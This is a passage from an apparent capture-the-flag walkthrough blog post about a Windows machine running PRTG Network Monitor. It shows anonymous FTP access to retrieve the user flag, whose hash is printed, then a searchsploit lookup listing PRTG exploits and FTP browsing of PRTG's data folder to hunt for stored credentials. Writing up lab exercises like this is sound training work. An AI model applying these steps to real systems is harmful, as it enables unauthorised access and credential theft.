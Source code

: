 226 Transfer complete.
{% endhighlight %}

### 2. Getting User
Pretty straightforward.<br>
We can take advantage of opening FTP and access to the user folder as annonymous.
{% highlight shell %}
ftp> pwd
257 "/users/Public" is current directory.

ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.30 secs (0.1083 kB/s)
{% endhighlight %}
{% highlight shell %}
root@kali:~# cat user.txt 
dd58ce67b49e15105e88096c8d9255a5
{% endhighlight %}

### 3. Getting Root
On port 80, we can confirm that <a href="https://www.paessler.com/prtg">PRTG network monitor</a> is running and its version is "18.1.37.13946".
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-07-01/2019-07-01-11-11-59.png)

In the exploit-db, we can find possible exploit for the PRTG Network monitor.
{% highlight shell %}
root@kali:~# searchsploit PRTG
-------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                            |  Path
                                                                          | (/usr/share/exploitdb/)
-------------------------------------------------------------------------- ----------------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution      | exploits/windows/webapps/46527.sh
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)  | exploits/windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                   | exploits/java/webapps/34108.txt
-------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

We have a RCE but we need the credential of PRTG user.<br>
According to <a href="https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data">this</a> page, it is stored in the directory "/Programdata/Paessler/PRTG Network Monitor"
{% highlight shell %}
ftp> pwd
257 "/Programdata/Paessler/PRTG Network Monitor" is current directory.

ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
07-01-19  12:17AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)